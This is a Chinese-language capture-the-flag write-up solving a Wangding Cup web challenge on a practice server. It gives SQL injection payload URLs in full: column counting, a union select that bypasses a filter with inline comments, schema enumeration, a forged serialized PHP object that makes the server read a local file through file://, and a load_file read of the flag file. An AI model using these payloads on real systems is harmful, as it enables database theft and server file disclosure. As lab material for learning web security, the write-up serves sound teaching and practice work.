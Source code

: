 网鼎杯的难题（web的东西还是好多好杂）!!!下次还是要看过题解后自己再从头来一遍

首先发现sql注入点（找到的思路但是不会自己注入）

http://61.147.171.105:49452/view.php?no=1 order by 5 --+ 报错

然后http://61.147.171.105:49452/view.php?no=1 order by 4 --+ 没有报错 确定有四列

然后试试union  http://61.147.171.105:49452/view.php?no=1 union select 1,2,3,4 --+

发现no hack

测试后发现是内联绕过  http://61.147.171.105:49452/view.php?no=1 union/**/ select 1,2,3,4 --+

http://61.147.171.105:49452/view.php?no=-1 union/**/ select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#

 http://61.147.171.105:49452/view.php?no=-1 union/**/ select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#

然后获取data列的值

 http://61.147.171.105:49452/view.php?no = 100 union /**/ select group_concat(data),3,4 from users #

![image-20230804230400294](./assets/image-20230804230400294.png)

发现是这样存储数据的

然后扫目录的时候发现有robots.txt文件打开如下

![image-20230804230513740](./assets/image-20230804230513740.png)

获取/user.php.bak

发现源码如下

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

同时发现自己的data是通过反序列化的形式存储的

构造需要的反序列化

UserInfo":3:{s:4:"name";s:4:"assasda";s:3:"age";i:0;s:4:"blog";s:43:"file:///var/www/html/flag.php";}

序列化是将一个对象转化为可存储或可传输的格式的过程。在php中，可以使用serialize()函数将一个对象序列化为字符串，然后使用unserialize（）函数将字符串反序列化为对象

传递上去：

可以用serialize构造序列化

http://61.147.171.105:49452/view.php?no=100 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'

然后看源码发现 <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tjMWU1NTJmZGY3NzA0OWZhYmY2NTE2OGYyMmY3YWVhYn0iOw0KZXhpdCgwKTsNCg=='>

base64解码后得到

<?php

$flag = "flag{c1e552fdf77049fabf65168f22f7aeab}";
exit(0);

第二种解法：直接用load__file读取

view-source:http://61.147.171.105:49452/view.php?no=100%20union/**/select%201,load_file(%27/var/www/html/flag.php%27),3,4%20

![image-20230804232938177](./assets/image-20230804232938177.png)

即可读取成功